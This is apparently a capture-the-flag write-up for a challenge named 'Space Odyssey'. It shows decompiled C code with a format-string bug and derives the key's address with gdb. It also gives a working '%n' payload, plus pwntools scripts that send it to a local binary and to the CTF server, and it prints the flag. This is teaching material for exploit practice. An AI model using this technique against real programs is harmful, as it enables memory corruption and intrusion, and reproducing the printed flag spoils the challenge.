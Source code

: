 # Space Odyssey

## Finding the vulnerability

Using Ghidra gives this code [from here](https://dogbolt.org/?id=58cbfe30-fbfc-4ee3-9dfd-fff8afc6ff67#Ghidra=207&Hex-Rays=217):

```
int main(void)
{
  char A [100];
  void *local_10;

  local_10 = &stack0x00000004;
  puts("Space Odyssey: Lost in the Cosmos");
  puts("Please enter the access code to regain control of the starship.");
  fflush(_stdout);
  fgets(A,100,_stdin);
  puts("Analyzing access code...");
  printf("Access code: ");
  printf(A);
  printf("Security Key Status: %d%% complete\n",key);
  if (key == 100) {
    puts("Access granted. Starship control restored.");
    puts(
        "Congratulations, space explorer! You\'ve saved the day but the flag is on server hehehehe!! \n               }"
        );
    puts("ver hehehehe!! \n               }");
  }
  else {
    puts("Access denied. Unauthorized intruders will not prevail.");
    puts("You\'re our last hope, find the correct access code!");
  }
  return 0;
}
```
The vulnerability is at "printf(A)" that allows us to input a format string.

Giving '%100c%10$naa\<location of key\>' as input, Allowes us to write the value 100 at location of key.

Explaination for this type of attack can be found [here](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

## Finding the address of key

An objdump of sa2 produces following assembly for the line printf("Security Key Status: %d%% complete\n", key):

```
    080491f6 <main>:
     8049299: add    esp,0x10
     804929c: mov    eax,DWORD PTR [ebx+0x2c]
     80492a2: sub    esp,0x8
     80492a5: push   eax
     80492a6: lea    eax,[ebx-0x1f6c]
     80492ac: push   eax
     80492ad: call   8049090 <printf@plt>
```

Following the cdecl calling convention, **&key = ebx + 0x2c**.

Setting a breakpoint at 80492ad(the printf call) in gdb and running "info registers ebx" gives ebx = 0x804c000.
So **&key = 0x804c02c**

## Sending input

Knowing the value of key along we the input string as '%100c%10$naa\x2c\xc0\x04\x08'(the address is written in reverse byte order since the code seems to be running in a x86 machine).

We can send the input to executable(while preserving the non-printable charecters) using [pwntools](https://docs.pwntools.com/en/stable/fmtstr.html).

```
    from pwn import *

    p = process('./sa2')

    p.sendline('%100c%10$naa' + '\x2c' + '\xc0' + '\x04' + '\x08')
    print(p.recvall()) # prints the output of the program

    p.close()
```
To send this input to the kludge server to get the flag:
```
    from pwn import *

    p = remote('milanctf.kludge.in',11419)

    p.sendline('%100c%10$naa' + '\x2c' + '\xc0' + '\x04' + '\x08')
    print(p.recvall()) # prints the output of the program

    p.close()
```

Flag: milanCTF{F0rm@t_Str1ng_1n_Sp4c3}
